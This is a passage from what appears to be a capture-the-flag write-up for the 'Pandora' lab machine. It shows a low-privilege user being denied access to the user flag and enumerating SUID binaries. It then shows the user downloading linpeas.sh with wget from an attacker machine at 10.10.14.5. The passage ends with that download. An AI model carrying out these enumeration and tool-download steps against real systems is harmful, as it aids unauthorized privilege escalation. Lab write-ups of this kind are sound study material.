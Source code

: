 Now we dont have permission to read the user flag,

```c
daniel@pandora:/home$ ls
daniel  matt
daniel@pandora:/home$ cd matt
daniel@pandora:/home/matt$ ls
user.txt
daniel@pandora:/home/matt$ cat user.txt
cat: user.txt: Permission denied
daniel@pandora:/home/matt$ 
```

Trying standard privilege escalation techniques, got some ```SUID binaries```

```c
daniel@pandora:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```

```/usr/bin/pandora_backup``` seems interesting and ```/usr/bin/at``` can be used to bypass restricted shell

```c
daniel@pandora:~$ ls -l /usr/bin/at
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
daniel@pandora:~$ ls -l /usr/bin/pandora_backup
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
```

The second user ```matt``` can run ```/usr/bin/pandora_backup```, so we need to get to ```matt```

Downloading ```linpeas.sh``` from our attacker machine,

```c
daniel@pandora:~$ wget http://10.10.14.5:8000/linpeas.sh
--2022-03-30 16:21:53--  http://10.10.14.5:8000/linpeas.sh
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 775707 (758K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                              100%[============================================================================>] 757.53K   458KB/s    in 1.7s    

2022-03-30 16:21:55 (458 KB/s) - ‘linpeas.sh’ saved [775707/775707]

```
